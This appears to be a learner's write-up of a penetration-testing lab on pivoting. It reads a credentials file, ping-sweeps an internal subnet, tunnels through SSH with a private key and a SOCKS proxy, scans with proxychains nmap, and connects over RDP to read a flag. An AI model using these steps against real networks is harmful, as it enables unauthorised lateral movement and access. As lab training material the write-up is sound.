 
2. Submit the credentials found in the user's home directory. (Format: user:password)

```sh
cat /home/webadmin/for-admin-eyes-only
```


3. Enumerate the internal network and discover another active host. Submit the IP address of that host as the answer.

```sh
# Assuming that the host we landed in is our pivot host. Enumerate using bash?
for i in {1..254} ;do (ping -c 1 172.16.5.$i | grep "bytes from" &) ;done

64 bytes from 172.16.5.15: icmp_seq=1 ttl=64 time=0.018 ms
64 bytes from 172.16.5.X: icmp_seq=1 ttl=128 time=5.04 ms

# The other ip is 
172.16.5.X
```


4. Use the information you gathered to pivot to the discovered host. Submit the contents of `C:\Flag.txt` as the answer.

```sh
# Assume that 172.16.5.35 is server01. Try to connect using the credentials gathered from the pivot host?
ssh -D 9050 ******@172.16.5.35

/etc/ssh/ssh_config: line 25: Bad configuration option: usepam
/etc/ssh/ssh_config line 27: Unsupported option "rsaauthentication"
/etc/ssh/ssh_config: terminating, 1 bad configuration options


# Failed. Try from the attacker machine with the private key. And that worked.
ssh -i id_rsa -D 9050 webadmin@10.129.229.129


# Seems like it worked? # Edit the proxychains config file to configure the proxy
tail -4 /etc/proxychains.conf


# meanwile
# defaults set to "tor"
socks4 	127.0.0.1 9050


# Verify that we can access the internal network from our kali machine
proxychains nmap -v -Pn -sT 172.16.5.35 --top-ports 20

...
Nmap scan report for 172.16.5.35
Host is up.
...


# Now SSH or RDP? Per the question, looks like a windows machine. So RDP
proxychains xfreerdp /u:******* /p:'*********' /v:172.16.5.35 /size:80% +clipboard

# Worked? Yes. Read the flag
PS C:\> type .\Flag.txt
*************
```
